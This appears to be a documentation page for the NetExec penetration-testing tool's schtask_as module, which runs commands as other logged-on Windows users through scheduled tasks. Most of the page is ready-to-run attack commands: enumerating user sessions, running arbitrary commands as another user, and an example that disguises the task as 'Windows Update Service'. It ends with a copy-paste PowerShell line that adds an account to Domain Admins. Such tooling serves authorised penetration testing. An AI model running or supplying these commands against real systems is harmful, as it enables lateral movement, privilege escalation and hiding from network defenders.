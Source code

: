 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# Impersonate logged-on Users

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte_).

### 1. Enumerate logged-on users on your Target

```bash
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. Execute commands on behalf of other users

```bash
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### Module options:

```bash
CMD            Command to execute
USER           User to execute command as
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```bash
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```powershell
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
